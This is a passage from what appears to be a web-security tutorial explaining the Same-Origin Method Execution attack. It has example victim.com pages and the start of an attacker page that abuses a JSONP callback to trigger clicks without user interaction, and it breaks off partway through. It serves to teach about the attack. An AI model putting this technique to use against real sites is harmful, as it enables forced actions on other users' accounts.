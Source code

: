 You can read about it [here](https://www.blackhat.com/docs/eu-14/materials/eu-14-Hayak-Same-Origin-Method-Execution-Exploiting-A-Callback-For-Same-Origin-Policy-Bypass-wp.pdf).

With this attack, it's possible to execute js methods in the context of different documents within the same origin.

***Example**: By using this attack `https://example.com/vulnerable` can execute js methods on `https://example.com/anything`.*

> Such method execution includes: clicks, form submissions, form input value tampering, JavaScript functions and similar (e.g. element.click(), privateForm.submit(), inputElement.stepUp/stepDown(), element.select(), element.focus(), JsDefinedFunction(), jQueryFunc() and so on.

### Example

To help you understand the attack without reading the long article above, I will add a simple example of the attack.

Let's say we have three pages:

`http://victim.com/endpoint?callback=something`
```js
    /**/something({"data":"data"})
```

The endpoint with the callback.

`http://victim.com/proxy?name=something`
```html
<html>
    <body>
        <script src='/endpoint?callback=something'></script>
    </body>
</html>
```

The page with a script tag pointed to the callback.

`http://victim.com/link?url=javascript:alert()`
```html
<html>
    <body>
        <a href="javascript:alert()"></a>
    </body>
</html>
```

The page where we want to use a js method.

Using the SOME attack we can call `.click()` on the `<a>` tag of the last page without any user interactions! To do so, we need to create two pages:

`start.html:`
```html
<script>
    win1 = open("/click.html")
    location.replace("http://victim.com/link?url=javascript:alert()")
</script>
```
